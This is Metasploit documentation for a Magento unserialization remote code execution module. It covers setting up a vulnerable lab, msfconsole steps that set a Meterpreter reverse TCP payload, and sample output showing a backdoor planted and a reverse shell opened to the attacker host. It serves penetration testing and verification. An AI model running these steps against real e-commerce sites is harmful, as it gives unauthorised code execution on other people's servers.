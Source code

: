 ## Vulnerable Application

Magento is a popular open-source e-commerce platform written in PHP. An unserialization
vulnerability exists in the product that allows an unauthenticated user to gain arbitrary
code execution.

Magento Community and Enterprise editions before 2.0.6 are affected. The magento_unserialize module
was specifically tested against version 2.0.6, on Ubuntu 14.04 and Debian.

For testing purposes, you can download the vulnerable
applications [here](https://www.exploit-db.com/apps/d34a83e80f927d7336cc8ef37a9867f4-magento2-2.0.5.tar.gz).

### Install

To set up a vulnerable version of Magento, please follow these steps. This is specific to
Ubuntu 14, and assumes you are installing Magento under /var/www/html/.

1. Set up a [Ubuntu](http://www.ubuntu.com/) box.
2. Open a terminal, and enter: ```sudo apt-get install apache2```
3. Enter: ```sudo apt-get install php5```
4. Enter: ```sudo a2enmod rewrite```
5. Add the following content to /etc/apache2/sites-enabled/000-default.conf, inside the virtual block:

```
<Directory /var/www/html>
  Options Indexes FollowSymLinks MultiViews
  AllowOverride All
  Order allow,deny
  allow from all
</Directory>
```

6. Download the [vulnerable Magento app](https://www.exploit-db.com/apps/d34a83e80f927d7336cc8ef37a9867f4-magento2-2.0.5.tar.gz)
7. Extract the compressed file: ```tar -xf magento2-2.0.5.tar.gz```
8. Move the files and directories of magento2-2.0.5 to /var/www/html/ (make sure .htaccess is copied too)
9. In terminal, enter: ```sudo chmod 644 /var/www/html/.htaccess```
10. Enter: ```sudo service apache2 restart```
11. Enter: ```sudo apt-get install mysql-server-5.6```. And follow the installation instructions of MySQL.
12. Enter: ```sudo apt-get install php5-mysql```
13. Enter: ```sudo apt-get install php5-mcrypt```
14. Enter: ```sudo php5enmod mcrypt```
15. Enter: ```sudo apt-get install php5-xsl php5-curl php5-intl```
16. Enter: ```sudo service apache2 restart```
17. cd to /var/www/html, enter: ```sudo mkdir tmp```, and cd to tmp
18. In tmp, do: ```curl -sS https://getcomposer.org/installer | php```
19. Enter: ```sudo mv composer /usr/local/bin/composer```
20. In /var/www/html, do: ```composer install```
21. You will be asked for a username (public key) and password (private key). You can register
    for one here: https://marketplace.magento.com/
22. Back to terminal, enter: ```mysql -h localhost -u root -p[password]```
23. In mysql, enter: ```create database magento```, and exit
24. Go to http://localhost with a browser, and install Magento through the web interface.
25. After installation, back to Magento directory, and enter: ```sudo rm -rf var/cache/*```
26. Enter: ```sudo rm -rf var/generation/*```
27. Enter: ```sudo rm -rf var/page_cache/*```
28. cd to /var/www/html/bin
29. Enter: ```sudo php magento deploy:mode:set developer```. It should say that you're in developer mode.
30. Enter: ```sudo php magento setup:static-content:deploy```
31. Enter: ```sudo php magento indexer:reindex```
32. Enter: ```sudo chmod -R 777 /var/www/html```
33. Go to http://localhost, you should see Magento up and running.
34. From Magento, log in as admin, and create a product. After creating one, make sure this product
    is:
    * Either includes a shipping address, or does not have a weight.
    * Searchable from the front-end.

If at some point the IP (base URL) of Magento has changed, then you will need to do these steps to update:

1. From the terminal, do: ```mysql -h localhost -u [username] -p[password]```
2. In the SQL prompt, do: ```use [magento database name]```
3. Do: ```select * from core_config_data;```, you should see both web/insecure/base_url (config ID 2) and web/secure/base_url (config ID 3) with the hardcoded IP.
4. Do: ```update core_config_data set value='http://[IP]/' where config_id=2;```
5. Do: ```update core_config_data set value='https://[IP]/' where config_id=3;```
6. Back to the Magento directory, do: ```sudo rm -rf var/cache/*```
7. Also do: ```sudo rm -rf var/generation/*```
8. Also do: ```sudo rm -rf var/page_cache/*```
9. Browse to Magento again with the new IP, it should be up and running again.

## Verification Steps

1. Start msfconsole
2. Do: ```exploit/multi/http/magento_unserialize```
3. Do: ```set RHOST [IP]```
4. Do: ```set PAYLOAD php/meterpreter/reverse_tcp```
5. Do: ```set LHOST [IP]```
6. Do: ```exploit```
7. And you should get a session

## Options

## Scenarios

```
msf exploit(magento_unserialize) > check
[*] 192.168.1.108:80 The target appears to be vulnerable.
msf exploit(magento_unserialize) > exploit

[*] Started reverse TCP handler on 192.168.1.94:4444 
[+] 192.168.1.108:80 - generated a guest cart id
[+] 192.168.1.108:80 - backdoor done!
[*] Sending stage (33721 bytes) to 192.168.1.108
[*] Meterpreter session 6 opened (192.168.1.94:4444 -> 192.168.1.108:46835) at 2016-06-02 17:09:34 -0500
[+] 192.168.1.108:80 - Deleted lP5UgbUBLm1sWN25gWfZBqYKms.php

meterpreter > 
```
